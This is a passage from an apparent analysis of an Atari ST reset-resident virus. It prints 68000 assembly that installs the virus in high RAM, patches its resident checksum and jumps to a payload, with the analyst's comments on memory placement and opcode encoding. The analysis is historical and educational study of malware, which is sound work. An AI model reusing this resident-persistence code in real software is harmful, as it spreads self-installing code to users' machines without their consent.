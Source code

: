 ```asm

            LEA       INSTALL_HDV_HPB(PC),A3            ; A3 = INSTALL_HDV_HPB vector routine
            LEA       HDV_HPB_VECTOR(PC),A4             ; A3 = HDV_HPB_VECTOR copy routine
COPY_INSTALL_HDV_HPB:
            MOVE.W    (A3)+,(A1)+                       ; copy INSTALL_HDV_HPB vector routine after magic word / address
            CMPA.L    A4,A3                             ; until copy routine address in reached
            BLT.S     COPY_INSTALL_HDV_HPB                           

            LEA       LOADER(PC),A3                     ; A3 = bootloader start
            MOVE.L    A3,(A1)+                          ; then set it at the end (why? after RTS?)

            MOVEA.L   D1,A3                             ; Reset A3 to ram top location
            CLR.W     D0                                ; clear d0 to store checksum
            MOVE.W    #$FE,D2                           ; D2 = 254 words (2 pages)
CALC_RESIDENT_CHK:
            ADD.W     (A3)+,D0                          ; Compute checksum
            DBF       D2,CALC_RESIDENT_CHK              ; 
            MOVE.W    #RESIDENT_CHK,D2                  ; then substract $5678 to adjust the checksum
            SUB.W     D0,D2                             ;
            MOVE.W    D2,(A3)                           ; copy this value to the end of the virus

            MOVE.L    #0,RESVEC_ENA.W                   ; remove magic value to resvector
            MOVEA.L   RESET_VECTOR_FLAG(PC),A1          ; set payload start in a1
            CMPA.L    #0,A1                             ; check paylaod start is empty
            BNE       RESET_VECTOR_SET                  ; if not jump to payload
            JMP       (A6)                              ; else jump to original resetvec return address
RESET_VECTOR_SET:  
            JMP       (A1)
```

So in order, the reset vector routine:

 1. Set a specific target address: end of ST RAM (`PHYSTOP` (`0x42E`) depends on model 520, 1040..., for example that's 0x80000 on a 520, 0x100000 on a 1040), then minus 0x8000 and minus 0x200 (basically 32KB + 512 bytes before the end of the available memory)
    1. It has to be on a 0x200 (512) bytes boundary
    1. It is better to be near the end of the memory to limit chances to be overlapped and erased after reset
    1. You'll notice the memory substraction in done in 2 steps and not a "simple" SUBA.L #$8200,A1.
    
Why? It looks to be linked to 68K SUBA opcode which considered the offset as signed as $8000 is half a word. I need to investigate what the assember generates for the size specification:

```
Object Code:  1001 ddds 11 ff ffff
              9... .... .. .. ....
                where: ddd is the destination address register
                s is the size specification
                0 = the source is a sign extended word
                1 = the source is a long word
                ffffff is the effective address field
```
